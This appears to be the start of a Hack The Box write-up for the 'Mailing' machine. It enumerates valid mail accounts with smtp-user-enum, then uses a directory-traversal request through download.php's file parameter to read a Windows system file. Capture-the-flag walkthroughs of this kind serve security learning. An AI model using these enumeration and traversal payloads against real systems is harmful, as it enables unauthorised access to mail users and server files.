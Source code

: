 The host has a mail service and uses `hMailServer` in the backend.

## Initial Access

Make a list with the three users and their roles.

```shell
$ cat users
ruy@mailing.htb
maya@mailing.htb
gregory@mailing.htb
it@mailing.htb
support@mailing.htb
```

Using `smtp-user-enum`, check if any user exists.

```shell
$ smtp-user-enum -M RCPT -U users -t 10.10.11.14 
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... users
Target count ............. 1
Username count ........... 5
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Tue May 13 22:27:57 2025 #########
10.10.11.14: support@mailing.htb exists
10.10.11.14: it@mailing.htb exists
10.10.11.14: gregory@mailing.htb exists
10.10.11.14: ruy@mailing.htb exists
10.10.11.14: maya@mailing.htb exists
######## Scan completed at Tue May 13 22:27:57 2025 #########
5 results.

5 queries in 1 seconds (5.0 queries / sec)
```

Three are valid but we need a password to send an email.

On the site, we notice the download URL is like `?file=asdf.pdf`, testing if it is an LFI.

```shell
$ curl "http://mailing.htb/download.php?file=..\..\..\..\..\..\windows\win.ini"         
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
